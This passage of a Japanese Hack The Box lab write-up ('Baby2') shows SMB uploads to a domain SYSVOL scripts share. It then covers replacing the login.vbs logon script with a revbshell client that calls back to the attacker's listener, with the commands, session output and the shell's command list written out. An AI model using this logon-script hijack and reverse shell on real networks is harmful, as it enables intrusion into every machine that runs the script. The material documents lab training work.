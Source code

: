 ```sh
smb: \baby2.vl\> cd scripts\
smb: \baby2.vl\scripts\> put generate.lnk
putting file generate.lnk as \baby2.vl\scripts\generate.lnk (4.4 kb/s) (average 4.4 kb/s)
smb: \baby2.vl\scripts\> ls
  .                                   D        0  Tue Oct  7 12:27:10 2025
  ..                                  D        0  Tue Aug 22 17:43:55 2023
  generate.lnk                        A     2164  Tue Oct  7 12:27:11 2025
  login.vbs                           A      992  Sat Sep  2 14:55:51 2023

                6126847 blocks of size 4096. 1950005 blocks available
smb: \baby2.vl\scripts\>
```
アップロードできた
ってことは、login.vbsを書き換えることができるのでは

login.vbsの書き換え
リバースシェルを確立するように書き換える
- リバースシェルはこれを利用する
- https://github.com/bitsadmin/revbshell
client.vbsのサーバーIPは自分のIPにする
サーバーを立てて待ち受ける
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo/revbshell]
└─$ python2 server.py
```

SMBでrevbshellのclient.vbsの名前をlogin.vbsに変更して、SYSVOL\baby2.vl\scriptsにアップロードする
```sh
smb: \baby2.vl\> cd scripts\
smb: \baby2.vl\scripts\> ls
  .                                   D        0  Tue Oct  7 12:27:10 2025
  ..                                  D        0  Tue Aug 22 17:43:55 2023
  generate.lnk                        A     2164  Tue Oct  7 12:27:11 2025
  login.vbs                           A      992  Sat Sep  2 14:55:51 2023

                6126847 blocks of size 4096. 1949731 blocks available
smb: \baby2.vl\scripts\> put login.vbs
putting file login.vbs as \baby2.vl\scripts\login.vbs (23.5 kb/s) (average 23.5 kb/s)
smb: \baby2.vl\scripts\> ls
  .                                   D        0  Tue Oct  7 12:27:10 2025
  ..                                  D        0  Tue Aug 22 17:43:55 2023
  generate.lnk                        A     2164  Tue Oct  7 12:27:11 2025
  login.vbs                           A    13608  Tue Oct  7 12:53:13 2025

```

```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo/revbshell]
└─$ python2 server.py 
> dir
> DIR 
Unknown command
help
> Supported commands:
- CD [directory]     - Change directory. Shows current directory when without parameter.
- DOWNLOAD [path]    - Download the file at [path] to the .\Downloads folder.
- GETUID             - Get shell user id.
- GETWD              - Get working directory. Same as CD.
- HELP               - Show this help.
- IFCONFIG           - Show network configuration.
- KILL               - Stop script on the remote host.
- PS                 - Show process list.
- PWD                - Same as GETWD and CD.
- SET [name] [value] - Set a variable, for example SET LHOST 192.168.1.77.
                       When entered without parameters, it shows the currently set variables.
```